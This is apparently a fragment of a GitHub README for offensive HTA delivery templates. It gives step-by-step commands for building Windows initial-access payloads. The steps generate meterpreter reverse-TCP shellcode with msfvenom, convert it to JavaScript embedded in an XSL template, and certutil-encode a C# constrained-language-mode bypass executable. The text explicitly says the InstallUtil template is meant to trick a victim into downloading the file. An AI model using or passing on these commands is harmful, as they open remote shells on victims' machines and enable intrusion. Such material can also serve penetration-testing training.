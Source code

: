 ### <ins>XSL Transform (xsl-template.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.
